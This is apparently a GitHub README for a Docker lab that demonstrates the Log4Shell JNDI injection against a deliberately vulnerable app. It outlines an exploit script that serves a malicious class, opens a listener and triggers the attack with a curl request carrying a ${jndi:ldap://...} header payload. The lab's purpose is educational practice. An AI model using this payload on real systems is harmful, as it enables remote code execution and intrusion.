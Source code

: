 # fun with log4shell and docker

- vulnerable app from : https://github.com/christophetd/log4shell-vulnerable-app.git
- vulnerability explained : https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## play 
- one terminal : launch the vulnerable app : ./start_vuln_server.sh
- other terminal :
  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
  - launch the exploit : `./exploit.sh <host_ip>` (clone and build the jndi ldap server, compile the malicious class, run jndi server, run apache server to give the class in http, start listener) (ldap: port 4445, http server : 4443, listener : 4444)
- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<host_ip>:4445/x}'

![](./poc.png)
